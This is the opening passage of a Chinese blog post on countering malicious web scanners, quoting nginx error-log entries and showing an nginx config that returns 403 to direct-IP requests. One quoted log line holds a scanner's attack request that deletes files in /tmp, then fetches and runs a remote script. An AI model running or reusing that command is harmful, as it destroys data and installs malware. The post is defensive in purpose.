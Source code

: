 ```yaml
---
author: Akiba Arisa
author_gh_user: zhanbao2000
read_time: 20 min
tags:
    - nginx
    - gzip-bomb
    - flask
title: 如何使用 gzip 压缩包炸弹对恶意扫描器进行反击
---
```


## 起因

```bash
cat /var/log/nginx/error.log
```

然后发现 nginx 日志里全是扫描器的 404，让我们放两个上来展示一下：

```
2022/04/21 06:45:30 [error] 3281302#3281302: *239 open() "/usr/share/nginx/html/GponForm/diag_Form" failed (2: No such file or directory), client: XXX.XXX.XXX.XXX, server: localhost, request: "POST /GponForm/diag_Form?images/ HTTP/1.1", host: "XXX.XXX.XXX.XXX"
2022/04/21 20:36:23 [error] 3281302#3281302: *1497 open() "/usr/share/nginx/html/shell" failed (2: No such file or directory), client: XXX.XXX.XXX.XXX, server: localhost, request: "GET /shell?cd+/tmp;rm+-rf+*;wget+ tigoinari.tk/jaws;sh+/tmp/jaws HTTP/1.1", host: "XXX.XXX.XXX.XXX"
```

很烦，一堆扫描器在扫我的配置，另一堆扫描器在帮我调用 nginx 的 shell 来 `rm -rf *`，还有一堆扫描器在帮我执行恶意脚本。

不得不说，扫配置的扫描器虽然没什么伤害力，但是天天给 `error.log` 加无意义的 log，本质上也算是一种骚扰了。但是执行脚本的我真的看不下去了，而且万一哪天出了个某某漏洞，然后真执行成功了呢，看来得用点手段处理掉。

## 温和的处理方法

恶意扫描器扫网站，根据日志中显示的 `host` 的值可以分为三个情况：

 - `host` 是自己的公网 IP：说明扫描器在公网上扫 IP 段，并且通过 IP 地址直接访问你的主机的80端口
 - `host` 是 `127.0.0.1` 或 `localhost`：说明扫描器扫的是你的域名，并通过 nginx 反代到了 `localhost`
 - `host` 是你的域名：说明扫描器爬的是你的域名

后两种情况可以交给 Cloudflare 解决，把安全性面板上的 `托管规则` 打开就行（可惜现在暂时还用不了，得等 cf 上线）。

 > 轻松配置和部署 Cloudflare 凭借保护数百万个应用程序的经验构建的规则。Cloudflare 免费托管规则集即将上线！
 > <br>https://blog.cloudflare.com/waf-for-everyone/

（敲碗等 cf 上线免费托管规则集）

本文着重讨论第一种情况。第一种情况可以使 nginx 阻止所有的通过 IP 地址直接访问80端口的请求，具体设置如下：

```nginx title="nginx.conf（部分）" linenums="1" hl_lines="4 12"
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name _;

    return 403;
}

server {
    listen 80;
    listen [::]:80;
    server_name localhost 127.0.0.1;

    ...
}
```